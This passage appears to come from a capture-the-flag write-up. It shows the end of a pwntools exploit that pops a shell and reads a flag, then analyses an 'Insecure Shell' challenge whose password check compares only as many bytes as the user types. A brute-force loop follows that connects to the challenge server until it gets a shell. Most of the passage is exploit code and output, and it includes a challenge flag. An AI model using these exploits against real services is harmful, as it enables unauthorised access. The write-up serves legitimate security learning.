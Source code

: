 ```py
r.sendlineafter(b'> ', b'5')
r.interactive()
```
```zsh
[+] Opening connection to chal.ctf.scint.org on port 10001: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag.txt
home
lib
# ...
var
$ cat flag.txt
THJCC{Y0uR_n@mE_I$_ToO_LoO0OOO00oO0000o0O00OoNG}
```

## Insecure Shell
throwing in ida:
```c
	read(fd, buf, 0xFuLL);
    printf("Enter the password >");
    __isoc99_scanf("%15s", s);
    v4 = strlen(s);
    if ( (unsigned int)check_password(buf, s, v4) )
      puts("Wrong password!");
    else
      system("/bin/sh");
    return 0;
```
check_password function:
```c {hl_lines=5}
__int64 __fastcall check_password(__int64 a1, __int64 a2, int a3)
{
  int i; // [rsp+20h] [rbp-4h]

  for ( i = 0; i < a3; ++i )
  {
    if ( *(_BYTE *)(i + a1) != *(_BYTE *)(i + a2) )
      return 1LL;
  }
  return 0LL;
}
```
notice that we control the count of comparisons with our input length\
we can just brute w/ 1 char and hope we get the 1 in 256!
```py
from pwn import *
import sys, time

while True:
    p = remote('chal.ctf.scint.org', 10004)
    p.sendlineafter(b'>', b'!')

    l = p.recv(1, timeout=1)
    if l and b'Wrong' in l:
        log.failure(l)
    else:
        p.interactive()

    p.close()
```